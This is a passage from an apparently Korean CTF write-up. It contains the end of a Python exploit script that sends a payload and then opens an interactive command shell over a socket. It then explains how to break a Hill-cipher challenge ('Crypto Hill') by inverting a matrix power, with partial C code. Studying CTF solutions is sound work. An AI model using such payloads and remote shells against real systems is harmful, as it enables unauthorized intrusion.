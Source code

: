 ```python
s.send(payload2)

while True:
	cmd = raw_input(">")
	s.send(cmd + "\n")
	print s.recv(1024)
```

## 0x0A Crypto Hill [100]
- 16글자를 입력받아 4X4 matrix 에 저장하고 count 번 만큼
$$
\left(\begin{array}{cc}
2 & 5 & 18 & 5\\
16 & 7 & 8 & 9\\
10 & 11 & 14 & 4\\
2 & 15 & 11 & 17
\end{array}\right)
$$
을 곱한다음 결과 값을 출력하는데
15개를 출력한 뒤 4번째 값 + count를 출력하고 16번째 값을 출력하고 0을 출력한다

즉 문제에서 나온 암호 파일
```c
164845022
194846903
258237904
166782954
210425942
249349389
330056130
213716910
196223440
232924323
307918857
199897032
173490804
205813716
272275442
166782958
176726624
0
```
에서 4번째 값과 16번째 값을 비교하면 count가 4임을 알 수있다. 원문 matrix * (암호화 matrix^4) = (암호문 matrix)의 수식을 풀면 원문을 얻을 수 있다.

```c
#include<stdio.h>

long long AM[4][4] = {{ 164845022, 194846903, 258237904, 166782954 }, { 210425942, 249349389, 330056130, 213716910 }, { 196223440, 232924323, 307918857, 199897032 }, { 173490804, 205813716, 272275442, 176726624 }};
long long D[4][4] = { {-459, 1761, 258, -858}, {-2546, -2118, 3698, 1000}, {2050, -84, -172, -518}, {974, 1716, -3182, 1208} };
long long C[4][4];

int main(void)
{
   int i, j, k, l;
   for (l = 0; l < 4; l++)
   {
      for (i = 0; i < 4; i++)
      {
         for (j = 0; j < 4; j++)
         {
```
